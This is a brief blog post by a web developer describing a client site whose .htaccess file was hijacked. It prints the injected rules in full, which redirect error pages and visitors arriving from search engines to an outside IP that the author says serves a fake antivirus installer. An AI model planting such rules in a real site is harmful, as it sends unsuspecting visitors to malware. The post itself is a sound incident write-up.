 ```yaml
---
layout: post
title: ".htaccess hacked"
custom_v2_id: 50
---
```


<p>Today a client called me telling me that its website was unavailable, or more exactly that the full content of the FTP was displayed instead of its homepage.</p>
<p>After a little investigation it appears that the .htaccess file had been modified, here was the content I found :</p>
<pre>RewriteEngine On<br />ErrorDocument 400 http://217.23.5.232/hitin.php?land=20&amp;affid=20116<br />ErrorDocument 401 http://217.23.5.232/hitin.php?land=20&amp;affid=20116<br />ErrorDocument 403 http://217.23.5.232/hitin.php?land=20&amp;affid=20116<br />ErrorDocument 404 http://217.23.5.232/hitin.php?land=20&amp;affid=20116<br />ErrorDocument 500 http://217.23.5.232/hitin.php?land=20&amp;affid=20116<br />RewriteCond %{HTTP_REFERER} .*google.* [OR]<br />RewriteCond %{HTTP_REFERER} .*ask.* [OR]<br />RewriteCond %{HTTP_REFERER} .*yahoo.* [OR]<br />RewriteCond %{HTTP_REFERER} .*excite.* [OR]<br />RewriteCond %{HTTP_REFERER} .*altavista.* [OR]<br />RewriteCond %{HTTP_REFERER} .*msn.* [OR]<br />RewriteCond %{HTTP_REFERER} .*netscape.* [OR]<br />RewriteCond %{HTTP_REFERER} .*aol.* [OR]<br />RewriteCond %{HTTP_REFERER} .*hotbot.* [OR]<br />RewriteCond %{HTTP_REFERER} .*goto.* [OR]<br />RewriteCond %{HTTP_REFERER} .*infoseek.* [OR]<br />RewriteCond %{HTTP_REFERER} .*mamma.* [OR]<br />RewriteCond %{HTTP_REFERER} .*alltheweb.* [OR]<br />RewriteCond %{HTTP_REFERER} .*lycos.* [OR]<br />RewriteCond %{HTTP_REFERER} .*search.* [OR]<br />RewriteCond %{HTTP_REFERER} .*metacrawler.* [OR]<br />RewriteCond %{HTTP_REFERER} .*bing.* [OR]<br />RewriteCond %{HTTP_REFERER} .*dogpile.*<br />RewriteRule ^(.*)$ http://217.23.5.232/hitin.php?land=20&amp;affid=20116 [R=301,L]</pre>
<p>A little search online told me that this IP refer to a malware website launching a fake Antivirus software installation.</p>
<p>I have no idea how the .htaccess got modified, but I changed the FTP password.</p>